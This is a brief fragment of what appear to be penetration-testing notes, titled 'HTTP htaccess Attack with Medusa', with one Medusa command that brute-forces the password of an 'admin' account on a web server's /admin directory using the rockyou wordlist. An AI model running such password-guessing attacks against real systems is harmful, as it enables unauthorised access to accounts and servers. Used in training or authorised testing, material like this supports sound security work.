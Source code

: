 ###  HTTP htaccess Attack with Medusa Attack with Medusa
```bash
medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin

```

